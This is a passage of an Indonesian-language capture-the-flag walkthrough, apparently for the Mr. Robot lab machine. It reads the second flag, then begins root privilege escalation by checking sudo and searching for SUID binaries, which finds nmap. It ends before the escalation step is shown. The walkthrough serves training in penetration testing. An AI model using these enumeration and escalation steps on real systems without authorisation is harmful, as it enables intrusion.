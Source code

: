 ```
robot
```

---

## 📁 5. Ambil Flag Kedua

```bash
cat /home/robot/key-2-of-3.txt
```

🎉 Flag kedua berhasil diambil!


---


# ✅ PART 3 – ROOT PRIVILEGE ESCALATION & FINAL FLAG 👑

### 🎯 Target:

* Escalate dari user `robot` menjadi `root`
* Ambil `key-3-of-3.txt`

---

## 🔎 1. Cek Hak Akses `sudo`

Pertama coba:

```bash
sudo -l
```

📌 Output:

```
robot is not in the sudoers file. This incident will be reported.
```

➡️ Artinya kita gak bisa pakai `sudo`. Gak masalah. Kita cari cara lain pakai **SUID** exploit.

---

## 🧰 2. Cari File SUID

SUID = file yang dijalankan dengan **hak akses owner** (biasanya root)

```bash
find / -perm -4000 -type f 2>/dev/null
```

📌 Output (cuplikan penting):

```
/usr/local/bin/nmap
```
